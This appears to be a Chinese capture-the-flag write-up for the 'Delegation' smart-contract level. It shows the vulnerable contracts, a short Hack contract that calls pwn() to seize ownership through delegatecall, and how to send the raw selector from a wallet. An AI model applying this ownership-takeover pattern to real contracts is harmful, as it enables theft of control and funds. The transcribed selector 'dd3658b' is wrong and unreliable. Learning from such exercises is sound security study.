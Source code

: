# Delegation

## 题目

目标：修改owner

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## 分析

这是常见的delegatecall漏洞，遇到了好几次了，解题思路比较常规。下面介绍两种修改owner的方法：

### 合约修改

具体原理参考：本博客文章[security-15]，一模一样。下面就贴出解题代码。

```solidity
contract Hack{
    function attack() public{
    	//题目实例地址
        address(0x73984D4E3b589f9d64D71e7D1bAe2029715C9316).call(abi.encodeWithSignature("pwn()"));
    }
}
```

我们调用attack方法，执行成功，但是owner却没修改，为什么呢？我想了很久，是张学长告诉了我：去区块链浏览器看看执行成功没，然后我一看，果然出问题了：gas不足，失败了。但是为什么remix却显示成功调用了呢？答案：因为是call调用，就算执行失败也不会告诉你

![QQ图片20221223002529](06.Delegation/QQ图片20221223002529.png)

所以我们将gas提高了10倍，去区块链浏览器看，这回是真的执行成功了，owner也是真的修改成合约地址了。

然后我去提交答案，检查结果。然而显示我没有通过检验。又是张学长，他告诉我：这个靶场题目检验的是我钱包地址成为owner，而不是一个合约。（太感谢他了）

要钱包地址成为owner，那么就不可以用合约进行攻击，要直接用钱包用户直接调用了

### 做题：钱包用户修改

因为要触发delegation的fallback函数，里面代码`(bool result,) = address(delegate).delegatecall(msg.data)`，那么我们Low level interactions的时候，传入的calldata具有讲究：**传入的是Keccak256之后值的前8位，也就是函数选择器**。

先计算pwn()的Keccak256值：`0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab`

![image-20221223003716137](06.Delegation/image-20221223003716137.png)

然后取前8位：dd3658b（注意：去掉0x）。同理，需要将gas提高，我提高了10倍，这样执行才能成功。如图，owner也被修改为我的钱包地址

![image-20221223003748308](06.Delegation/image-20221223003748308.png)

然后检验答案，成功

![image-20221223004003850](06.Delegation/image-20221223004003850.png)





